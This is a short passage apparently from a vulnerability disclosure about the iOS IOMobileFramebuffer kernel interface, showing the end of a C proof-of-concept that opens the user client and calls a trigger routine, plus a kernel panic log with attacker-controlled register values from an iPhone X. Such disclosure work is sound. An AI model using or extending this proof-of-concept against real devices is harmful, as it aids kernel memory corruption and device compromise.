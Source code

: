 ```
    
    free(input);
}



void poc(void) {
    io_connect_t iomfb_uc = get_iomfb_uc();
    if (iomfb_uc == MACH_PORT_NULL) {
       return;
    }
    
    do_trigger(iomfb_uc);
    
    IOServiceClose(iomfb_uc);
}


```

And, the panic (from my physical iPhone X, iOS 14.7.1, 18G82):

```
  "build" : "iPhone OS 14.7.1 (18G82)",
  "product" : "iPhone10,3",
...
  "panicString" : "panic(cpu 5 caller 0xfffffff016de32d4): Kernel data abort. at pc 0xfffffff0172c4244, lr 0xfffffff0172c41b8 (saved state: 0xffffffe815d13110)
	  x0: 0xffffffe4ccd0a7c0  x1:  0x0000000000000000  x2:  0xffffffe4cd267700  x3:  0x0000000041414141
	  x4: 0x0000000000001804  x5:  0x0000000000000034  x6:  0xfffffff0172e6664  x7:  0x0000000000000000
	  x8: 0x0000000283b0de0c  x9:  0x0000000388b5e310  x10: 0x0000000041414141  x11: 0x0000000000000000
	  x12: 0x0000000000000000 x13: 0x0000000000000046  x14: 0xfffffff0172a0ac0  x15: 0xfffffff017310ed0
	  x16: 0x0000000000000001 x17: 0x0000000000000002  x18: 0xfffffff016dd1000  x19: 0xffffffe4ccd0a7c0
	  x20: 0x0000000041414141 x21: 0xffffffe4cd267700  x22: 0x0000000000000000  x23: 0x0000000035a41281
	  x24: 0x000000000000000c x25: 0x0000000041414141  x26: 0xffffffe815d13638  x27: 0xffffffe4cd3d45b4
	  x28: 0xffffffe19a0d1478 fp:  0xffffffe815d134a0  lr:  0xfffffff0172c41b8  sp:  0xffffffe815d13460
	  pc:  0xfffffff0172c4244 cpsr: 0x60400204         esr: 0x96000046          far: 0x0000000388b5e310

...
Kernel slide:      0x000000000ece0000
Kernel text base:  0xfffffff015ce4000


```
